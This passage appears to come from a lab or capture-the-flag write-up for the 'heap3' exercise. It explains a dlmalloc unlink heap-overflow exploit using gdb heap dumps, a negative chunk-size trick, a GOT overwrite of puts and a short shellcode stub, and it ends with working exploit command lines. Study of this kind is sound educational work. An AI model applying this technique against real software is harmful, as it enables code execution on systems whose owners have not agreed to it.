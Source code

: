 2. For each variable, we see that the size member is 0x00000029. This correponds to 00101001 in binary, meaning that the size is 40 bytes and that the previous chunk is in use. We now let gdb run until the three chunks of memory are freed, and then we take a look at the heap again:

    ```bash
    (gdb) x/50x 0x804c000
        0x804c000:  0x00000000  0x00000029  0x0804c028  0x00000000
        0x804c010:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c020:  0x00000000  0x00000000  0x00000000  0x00000029
        0x804c030:  0x0804c050  0x00000000  0x00000000  0x00000000
        0x804c040:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c050:  0x00000000  0x00000029  0x00000000  0x00000000
        0x804c060:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c070:  0x00000000  0x00000000  0x00000000  0x00000f89
        0x804c080:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c090:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c0a0:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c0b0:  0x00000000  0x00000000  0x00000000  0x00000000
        0x804c0c0:  0x00000000  0x00000000
    ```

3. We know that the memory is free, so we would expect all prev_size, size, fd and bk to be set properly. However, only fd actually is (also size is set, but does not signal the previous chunk as free): the reason is that these chunks are so small (less than 64 bytes) that they are not merged together upon freeing, but kept separated for the sake of speed. We can change this behaviour by controlling the size field and making it large enough to move the chunks from the so-called fastbin to the normal bin.
4. However, there is a problem when trying to write the size and prev_size fields: to set them properly we need to use NULL bytes, but passing them as program arguments won't work because they will be read as string terminators and whatever else is after that will not be read at all.
5. The solution is a trick involving an integer overflow (as in this Phrack paper): passing the value 0xFFFFFFFC (-4 as a signed integer), malloc will cast it to unsigned int, meaning that -4 becomes bigger than 64. The least significant bit of 0xFFFFFFFC is not set, meaning that the previous chunk is free and the unlinking procedure will be called on it. However, the address of this previous chunk will be calculated by subtracting -4 (therefore actually adding 4) from the current chunk’s beginning (resulting in the allocator thinking that the previous chunk actually starts at 4 bytes past the start of the current chunk), and its size will also be -4.
6. We target the second argument of heap3, so that we can exploit fd and bk when it is freed. The first argument is 'AAAA' and the last 'DDDD', to be easily recognizable. The middle argument is filled with As until the allocated memory is full; then the heap smashing bytes and a recognizable pattern as data.
    ```bash
    ./heap3 `python -c "print 'AAAA ' + 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'AAAABBBBCCCC' + ' DDD'"`
    ```

7. Running this results in a segmentation fault as the system tries to move stuff around in adresses that do not actually exist. If we disassemble main, we see that after freeing all the allocated memory there is one last call to puts. We want to redirect this call so that instead it executes winner.
8. To get the address of winner we take a look at `objdump -t`, and see that it is located at 0x08048864. This is the address that we want to put instead of the puts entry in the GOT table, which is located at 0x0804b128 (obtained with objdump -R). The actual address that we want to overwrite is 0x0804b11c, because due to the fd-bk arithmetic we have to subtract 12 bytes from the memory address that we want to write to.
9. We can't just pass the winner address in the heap, because trying to write to it will cause a segmentation fault. Instead, we need to encode a call to it and a return. This can be done for example with an online assembler: `push 0x08048864 ; ret`
10. The encoded instructions correspond to \x68\x64\x88\x04\x08\xc3, which also nicely fits into the 8 bytes that are available. The resulting code is:
```bash
    ./heap3 `python -c "print 'AAAA\x68\x64\x88\x04\x08\xc3' + ' ' + 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'AAAA' + '\x1c\xb1\x04\x08\x0c\xc0\x04\x08' + ' ' + 'DDD'"`
```
